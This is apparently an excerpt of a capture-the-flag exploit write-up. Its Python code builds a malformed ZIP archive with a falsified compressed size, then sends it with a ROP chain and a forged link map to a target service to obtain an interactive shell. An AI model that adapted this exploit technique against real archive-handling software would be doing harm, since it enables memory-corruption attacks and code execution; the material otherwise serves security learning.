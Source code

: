 ```python

# 2. Make Central directory file header
CDFH = p32(0x02014b50)
CDFH += PH * 16
CDFH += p32(0x40)  # Compressed size, HACKED
CDFH += PH * 4
CDFH += p16(len_file_name)  # File name length
CDFH += p16(len_extra_field)  # Extra field length
CDFH += p16(len_comment)  # File comment length
CDFH += PH * 8
CDFH += p32(0)  # Relative offset of local file header.
CDFH += PH * len_file_name  # file name
CDFH += PH * len_extra_field  # extra field
CDFH += PH * len_comment  # comment

# 3. Make End of central directory record (EOCD)
cd_size = len(CDFH)
# Offset of start of central directory, relative to start of archive
cd_offset = len(LFH) + len(comp_data)

EOCD = p32(0x06054b50)  # End of central directory record
EOCD += PH * 6
# Total number of central directory records
EOCD += p16(1)
# Size of central directory (bytes)
EOCD += p32(cd_size)
# Offset of start of central directory, relative to start of archive
EOCD += p32(cd_offset)
EOCD += PH * 2

zip_file = LFH + comp_data + CDFH + EOCD
size_t = len(zip_file)
```

The final zip file is 394 bytes.

### Send payloads

```python
# Send size t
payload = str(size_t + 1).rjust(8, '0').encode()
io.send(payload)

# Send zip file with ROP
io.send(zip_file)

# Send fake link map
io.send(forge_data)

io.interactive()
```
